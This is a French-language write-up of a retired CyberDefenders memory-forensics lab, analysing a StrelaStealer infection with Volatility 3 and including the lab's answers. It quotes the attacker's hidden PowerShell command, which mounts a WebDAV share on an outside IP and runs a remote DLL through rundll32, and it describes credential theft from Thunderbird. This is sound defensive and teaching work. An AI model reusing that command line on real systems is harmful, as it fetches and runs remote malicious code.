




# Day 008 — Reveal Lab

| | |
|---|---|
| Plateforme | [CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/) |
| Catégorie | Endpoint Forensics |
| Difficulté | Easy — Retired |
| Date | 2026-08-17 |
| Outils | Volatility 3, VirusTotal, MITRE ATT&CK |

Lab retiré, donc les réponses sont incluses.

## Contexte

Analyste forensic dans une institution financière, le SIEM a signalé une activité anormale sur un poste ayant accès à des données sensibles. Un dump mémoire (`192-Reveal.dmp`) de la machine a été capturé. Objectif : trouver le processus malveillant, remonter à son origine (qui l'a lancé, comment) et évaluer l'ampleur (compte, 2ᵉ étape, famille).

L'attaque est **multi-étapes** : un script léger prépare le terrain, puis délègue le vrai travail malveillant à un payload distant chargé par un binaire Windows légitime (LOLBin).

## Méthode

```
windows.info      ->  identifier l'OS
windows.pstree    ->  processus malveillant + parent (Q1, Q2) ; la ligne de commande révèle aussi Q3 et Q4
windows.getsids   ->  compte propriétaire du malware (Q6)
MITRE ATT&CK      ->  sous-technique du LOLBin (Q5)
VirusTotal        ->  famille de malware (Q7)
```

## Identifier le processus et son origine

`windows.info` confirme le profil (Windows 10 x64). Puis l'arborescence des processus :

```bash
vol.exe -f 192-Reveal.dmp windows.pstree
```



En bas de l'arborescence, une chaîne détonne : un `powershell.exe` lancé **caché**, qui monte un partage réseau distant puis charge une DLL via `rundll32`.



La ligne de commande complète :

```
powershell.exe -windowstyle hidden
   net use \\45.9.74.32@8888\davwwwroot\
   ;
   rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

### Q1 — Processus malveillant

Ce PowerShell réunit tous les signaux : lancé invisible (`-windowstyle hidden`), il monte un partage distant et exécute une DLL téléchargée à la volée. C'est lui qui porte l'activité malveillante (il lance ensuite `net.exe` et `conhost.exe` comme enfants).

**Réponse : `powershell.exe`** (PID 3692) — ATT&CK T1059.001 (PowerShell).

### Q2 — PPID du processus malveillant

La colonne `PPID` de la ligne PowerShell donne son parent.

**Réponse : `4120`**

## Décoder la 2ᵉ étape

L'adresse `\\45.9.74.32@8888\davwwwroot\` se lit de gauche à droite : `\\` = chemin réseau (une autre machine), `45.9.74.32` = serveur distant de l'attaquant, `@8888` = force le protocole **WebDAV** (partage de fichiers sur HTTP) sur le port 8888, `davwwwroot` = dossier partagé sur ce serveur.

### Q4 — Répertoire partagé sur le serveur distant

C'est le dossier distant monté par `net use`. `davwwwroot` est le nom par défaut de la racine d'un serveur WebDAV — l'attaquant y héberge son payload pour le faire charger sans écrire de fichier suspect sur le disque local.

**Réponse : `davwwwroot`** — ATT&CK T1021.002 (SMB/Windows Admin Shares) / WebDAV.

### Q3 — Fichier du payload de 2ᵉ étape

`rundll32` (utilitaire Windows légitime) est détourné pour charger `3435.dll` depuis le partage distant et exécuter sa fonction `entry`. Cette DLL est le vrai malware : le PowerShell n'est que le déclencheur, il délègue le travail à la DLL.



**Réponse : `3435.dll`**

### Q5 — Sous-technique MITRE ATT&CK

Faire exécuter son code par un binaire système de confiance = **T1218 System Binary Proxy Execution**. La variante propre à `rundll32` est la sous-technique `.011`.

**Réponse : `T1218.011`** (Rundll32).

## Évaluer l'ampleur

### Q6 — Compte utilisateur

```bash
vol.exe -f 192-Reveal.dmp windows.getsids --pid 3692
```

Le premier SID (`S-1-5-21-...-1001`) correspond à un vrai compte utilisateur ; les autres lignes sont des groupes système (`Everyone`, `Administrators`, `Users`…). Le nom associé est `Elon`. Détail important : la présence de `Local Account (Member of Administrators)` et `S-1-5-32-544 Administrators` montre que le malware tourne avec les **droits administrateur**.

**Réponse : `Elon`**

### Q7 — Famille de malware

On pivote vers la threat intelligence en cherchant l'IP `45.9.74.32` sur VirusTotal. Le *Crowdsourced context* attribue cette IP à **StrelaStealer**.



StrelaStealer vole les identifiants de messagerie **Outlook et Thunderbird** (il cherche `logins.json` et `key4.db` dans `%APPDATA%\Thunderbird\Profiles\` et les exfiltre vers son C2). Cela colle avec le contexte « institution financière » et avec les nombreux processus `thunderbird.exe` visibles dans le `pstree`.

**Réponse : `StrelaStealer`**

## Récapitulatif

| Q | Élément | Réponse |
|---|---|---|
| 1 | Processus malveillant | `powershell.exe` |
| 2 | PPID du processus | `4120` |
| 3 | Fichier payload 2ᵉ étape | `3435.dll` |
| 4 | Répertoire partagé distant | `davwwwroot` |
| 5 | Sous-technique MITRE | `T1218.011` |
| 6 | Compte utilisateur | `Elon` |
| 7 | Famille de malware | `StrelaStealer` |

Chaîne complète :

```
powershell.exe (caché, compte Elon / admin)
   ->  monte le partage WebDAV \\45.9.74.32@8888\davwwwroot  (net use)
   ->  rundll32 charge 3435.dll,entry depuis ce partage  (2ᵉ étape, LOLBin)
   ->  StrelaStealer : vol des identifiants Outlook / Thunderbird
```

Mapping MITRE ATT&CK : T1059.001 (PowerShell), T1218.011 (Rundll32), T1021.002 / WebDAV (Remote Shares), T1105 (Ingress Tool Transfer), T1555 (Credentials from Password Stores).

## Ce que je retiens

Le nom « Reveal » dit tout : l'attaque se lit par couches. Une seule ligne de commande contient déjà quatre réponses (le processus, son parent, le partage distant, le payload) — encore faut-il la décomposer morceau par morceau. Le schéma en deux étapes (PowerShell léger → DLL lourde chargée par rundll32 depuis WebDAV) est typique du *living-off-the-land* : le pirate n'apporte presque rien sur le disque, il détourne des outils déjà présents et légitimes. Le pivot final (IP → VirusTotal → famille) transforme une observation locale en attribution : StrelaStealer, un voleur d'identifiants email, ce qui donne un sens au ciblage d'une institution financière.

## Côté défense

- Alerter sur `powershell.exe` lancé avec `-windowstyle hidden` et/ou contenant `net use` vers une IP externe.
- Surveiller `rundll32` chargeant une DLL depuis un chemin réseau (`\\...`) — un rundll32 légitime cible des DLL locales.
- Bloquer le WebDAV sortant (service WebClient) si non nécessaire : il sert ici à charger le payload sans toucher au disque.
- Bloquer l'IP `45.9.74.32` et surveiller les accès à `%APPDATA%\Thunderbird\Profiles\` (`logins.json`, `key4.db`).
